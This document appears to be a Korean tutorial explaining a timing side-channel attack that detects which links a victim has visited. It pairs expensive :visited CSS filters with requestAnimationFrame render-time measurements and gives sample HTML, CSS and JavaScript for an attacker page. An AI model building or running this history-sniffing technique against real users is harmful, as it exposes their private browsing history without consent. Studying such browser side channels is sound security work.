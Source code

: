## 🔍 공격 아이디어: 방문한 링크 색상을 몰래 확인하기

### ✅ 목표

> 피해자가 `https://secret-site.com/profile/user123` 같은 링크를 과거에 방문했는지 알아낸다.

### ✅ 일반적인 방법은 불가능

과거엔 이 코드가 작동했어:

```js
const style = getComputedStyle(linkElement);
console.log(style.color);  // 방문 여부에 따라 색이 다름
```

그러나 **보안 상 이유로**, 대부분의 브라우저는
`:visited`에 대한 `getComputedStyle()` 접근을 **차단**함.
→ 색상이나 크기, 텍스트 변경 등의 스타일은 **JS에서 접근 불가**

---

## ❗ 하지만, requestAnimationFrame과 조합하면...

### ⏱️ 핵심 아이디어

* 브라우저는 **`:visited` 스타일을 실제로 렌더링은 함**
* `getComputedStyle()`은 차단되지만, **렌더링 처리 속도 차이**는 존재할 수 있음
* `requestAnimationFrame()`을 사용하면 **렌더링 타이밍을 매우 정밀하게 측정** 가능

---

## 💥 공격 흐름 요약

1. 공격자는 여러 개의 `<a>` 태그를 가진 페이지를 만든다.

   ```html
   <a href="https://target.com/user/123">Link</a>
   <a href="https://target.com/user/456">Link</a>
   ...
   ```

2. CSS에서 `:visited`에 아주 복잡한 스타일을 부여한다. (느리게 렌더링 되도록)

   ```css
   a:visited {
     filter: blur(1px) brightness(50%) drop-shadow(5px 5px 5px red);
   }
   ```

3. JS에서 `requestAnimationFrame()`을 사용해 **각 링크 렌더링 시간**을 측정한다.

   ```js
   const links = document.querySelectorAll('a');
   let index = 0;

   function checkLink() {
     const link = links[index];
     link.style.display = 'inline-block';  // 보이게
     const start = performance.now();

     requestAnimationFrame(() => {
       const elapsed = performance.now() - start;
       console.log(`Link ${index} render time: ${elapsed}ms`);
       index++;
       if (index < links.length) checkLink();
     });
   }
   ```